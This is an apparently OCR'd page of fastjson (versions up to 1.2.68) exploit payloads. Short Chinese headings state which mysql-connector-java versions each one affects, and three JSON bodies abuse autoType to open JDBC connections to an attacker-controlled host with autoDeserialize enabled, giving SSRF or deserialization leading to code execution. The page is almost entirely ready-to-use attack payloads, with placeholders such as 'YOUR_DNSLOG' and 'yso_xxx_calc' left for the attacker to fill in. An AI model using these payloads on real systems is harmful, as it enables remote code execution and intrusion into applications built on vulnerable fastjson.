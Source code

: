   
  
fastjson<=1.2.68，mysql-connector-java-5.1.1-5.1.49可SSRF 5.1.11至5.1.48可反序列化   
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_xxx",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
fastjson<=1.2.68，mysql-connector-java-6.0.2-6.0.3可反序列化  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
  "proxy": {
    "connectionString": {
      "url": "jdbc:mysql://YOUR_DNSLOG:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_xxx_calc"
    }
  }
}
```  
  
fastjson<=1.2.68，mysql-connector-java-8.0.19可反序列化，>8.0.19可SSRF  
```
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [{
                "host": ""
            }],
            "slaves": [],
            "properties": {
                "host": "YOUR DNSLOG",
                "user": "yso_xxx_calc",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true"
            }
        }
    }
}
```  
  